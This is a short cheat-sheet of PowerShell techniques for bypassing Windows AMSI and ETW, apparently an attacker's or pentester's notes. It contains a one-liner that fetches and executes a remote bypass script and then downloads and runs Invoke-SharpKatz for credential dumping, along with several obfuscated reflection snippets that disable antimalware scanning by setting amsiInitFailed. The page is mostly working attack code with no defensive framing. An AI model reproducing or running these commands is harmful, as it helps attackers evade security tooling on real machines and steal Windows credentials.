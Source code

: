 # AMSI and ETW bypass in 1:
https://github.com/BlackShell256/Null-AMSI?tab=readme-ov-file

```powershell
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-NullAMSI.ps1);Invoke-NullAmsi -etw -v;IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/Invoke-SharpKatz/refs/heads/main/Invoke-SharpKatz.ps1");Invoke-SharpKatz
```

Another AMSI Bypass:

```powershell
$t=[Ref].Assembly.GetType(('System.Manage'+'ment.Automa'+'tion.AmsiUtils'));
$f=$t.GetField(('amsiIn'+'itFailed'),'NonPublic,Static');
$f.SetValue($null,$true);
```
<https://medium.com/@0xHossam/powershell-exploits-modern-apts-and-their-malicious-scripting-tactics-7f98b0e8090c>

includes c-code!!!

AMSIBYPASS
---

> This bypass does not require administrator rights!!!

Works on 1903, 1909 and before

```yaml
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

List `dirty` words: 

```yaml
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
```

----

Los er door:

```powershell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b


And finally AMSI.FAIL
